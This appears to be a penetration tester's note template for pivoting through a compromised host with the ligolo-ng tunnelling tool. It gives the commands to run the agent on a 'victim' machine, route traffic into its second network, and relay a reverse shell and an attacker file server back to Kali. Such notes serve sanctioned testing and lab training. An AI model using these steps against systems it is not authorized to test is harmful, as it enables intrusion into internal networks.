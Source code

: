 
- Kali Configuration

```
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
ifconfig
ligolo-proxy -selfcert
```

- Victim Configuration

```
./ligolo-agent.exe -connect <% tp.frontmatter["KaliIP"] %>:11601 -ignore-cert
```

-  execution permissions on linux
	- chmod +x ligolo-agent

- We launch and wait for the connection to connect and then do the following in the kali

```
session 
ifconfig
```

- we set up the tunnel
- Configure local port forward with ligolo:

> 	[!error] Configure with second network interface of the victim machine
> ```
> sudo ip route add <% tp.frontmatter["VictimIP"] %>0/24 dev ligolo
> ip route list
> ``` 


- kali configuration for port forwarding

- kali reverse shell to 4444

```
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
```

- kali server 8000

```
listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:8000
```


> [!warning] Configure with second network interface of the victim machine
> ```
> sudo ip route add 240.0.0.1/32 dev ligolo
> sudo ip route list
> ```
